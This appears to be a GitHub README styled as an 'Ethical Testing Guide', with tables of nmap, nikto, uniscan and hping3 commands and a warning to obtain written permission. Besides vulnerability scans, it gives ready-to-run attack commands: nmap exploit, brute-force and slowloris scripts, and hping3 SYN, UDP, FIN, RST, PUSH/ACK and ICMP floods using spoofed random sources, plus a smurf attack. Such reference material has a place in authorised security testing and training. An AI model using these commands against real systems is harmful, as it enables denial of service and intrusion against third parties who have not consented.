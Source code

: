 # This is an Ethical Testing Guide

The following Guid includes commands in the following:

* #### `nmap`

* #### `nikto`

* #### `uniscan`

* #### `hping3`


***
Author has submitted the code for educational purposes only. Author doesn't hold any responsibility for wrong usage of this intellectual property! 
<p style="color:red"> NEVER PERFORM ETHICAL HACKING WITHOUT THE WRITTEN PERMISSION FROM THE PRODUCT OWNER, YOU HAVE BEEN WARNED! </p>
***

## Nmap

Nmap is a security scanner, originally written by Gordon Lyon, used to discover hosts and services on a computer network, thus building a "map" of the network.


| Test Case | Command |
| :---: | :---: |
| Scan the target for vulnerabilities | `nmap -Pn --script vuln <target.com>` | 
| Actively exploit detected vulnerabilities | `nmap --script exploit -Pn <target.com` |
| Brute Force Passwords | `nmap --script brute -Pn <target.com>` |
| Test if target is vulnerable to DoS | `nmap --script dos -Pn <target.com>` |
| Perform DoS attack | `nmap -max-parallelism 750 -Pn --script http-slowloris --script-args` |


## Nikto

Nikto Web Scanner is a Web server scanner that tests Web servers for dangerous files/CGIs, outdated server software and other problems. It performs generic and server type specific checks. It also captures and prints any cookies received

| Test Case | Command |
| : --- : | : --- : |
| SQL Injection | `nikto -Tuning 9 -h <target.com>` |
| DoS Check | `nikto -Tuning 6 -h <target.com>` |
| Perform check on suspicious files, misconfiguration leaks, etc. | `nikto -Display 1234EP -o report.html -Format htm -Tuning 123bde -host <target.com>` |

## Uniscan

Uniscan is a simple Remote File Include, Local File Include and Remote Command Execution vulnerability scanner.

| Test Case | Command |
| : --- : | : --- : |
| Perform file checks | `uniscan -u <target.com> -w` |
| Perform `robots.txt` and `sitemap.xml` checks | `uniscan -u <target.com> -e` |
| Perform Dynamic Check | `uniscan -u <target.com> -d` |
| Perform Static Check | `uniscan -u <target.com> -s` |
| Perform Stress Check | `uniscan -u <target.com> -r` |

## Hping3 

*Additional reading prior to performing actions below is strongly recommended! You have been warned!

hping is a command-line oriented TCP/IP packet assembler/analyzer. The interface is inspired to the ping(8) unix command, but hping isn’t only able to send ICMP echo requests. It supports TCP, UDP, ICMP and RAW-IP protocols, has a traceroute mode, the ability to send files between a covered channel, and many other features.

| Test Case | Command |
| : --- : | : --- : | 
| Check whether a host is alive (when PING is blocked) - sends an RST response | `hping3 -c 2 -V -p 80 -s 5050 -a <target.com>` |
| Perform DoS attack | `hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT --flood --rand-source TARGET_SITE` |
| UDP flood | `hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP` |
| TCP FIN flood | `hping3 --flood --rand-source -F -p TARGET_PORT TARGET_IP` |
| TCP RST flood | `hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP` |
| PUSH and ACK floods | `hping3 --flood --rand-source -PA -p TARGET_PORT TARGET_IP` |
| ICMP and IGMP floods | `hping3 --flood --rand-source -1 -p TARGET_PORT TARGET_IP` |
| Smurf attack | `hping3 --icmp --spoof TARGET_IP BROADCAST_IP` |

***
<div class="alert alert-success">
Additional studying and training is recommended below this point
</div>
***


